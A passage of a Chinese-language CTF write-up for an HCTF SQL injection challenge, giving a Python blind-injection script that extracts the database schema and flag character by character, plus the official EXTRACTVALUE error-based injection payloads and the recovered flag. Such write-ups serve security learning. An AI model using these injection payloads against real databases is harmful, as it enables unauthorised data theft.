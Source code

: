 成功。把上面的`h`改成了其它的就不行，于是试着写了个脚本。

{% highlight python %}
import requests

suc = '<table><tr><th>id</th><th>name</th></tr><tr><td>1</td><td>user</td></tr>'
url = 'http://45.32.25.65/nweb/sqli2/?id=1 AND ASCII(SUBSTR((%s),%d,1))=%d'
#subq = "SELECT schema_name FROM information_schema.schemata LIMIT 1,1"
#subq = "SELECT table_name FROM information_schema.tables WHERE table_schema='hctfsqli2' LIMIT 0,1"
#subq = "SELECT column_name FROM information_schema.columns WHERE table_name='hhhhctf' LIMIT 0,1"
subq = "SELECT flag FROM hhhhctf"
finish = False
len = 6
while not finish:
    for c in range(0x20, 0x80):
        req = (url % (subq, len, c))
#        print(req)
        res = requests.get(req).text
#        print(chr(c) + res)
        if res == suc:
            print(chr(c))
            break
    else: finish = True
    len += 1

# hctfsqli2
#  hhhhctf
#   flag
#  users
# information_schema
{% endhighlight %}

期间我大概跑数据库结构跑了个透……结构和上面的注释一样。最后flag为`hctf{com3_0n_h4v3_a_try233}`

#### 官方题解

利用ExtractValue在XPath表达式不合法的时候会报语法错误，这时候可以利用报错来获取数据。

官方题解给出了爆表名的`1 and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1)))%23`

可以依次写出爆列名和拿flag的注入语句。

`1 AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT column_name FROM information_schema.columns WHERE table_schema='hhhhctf' LIMIT 0,1)))`
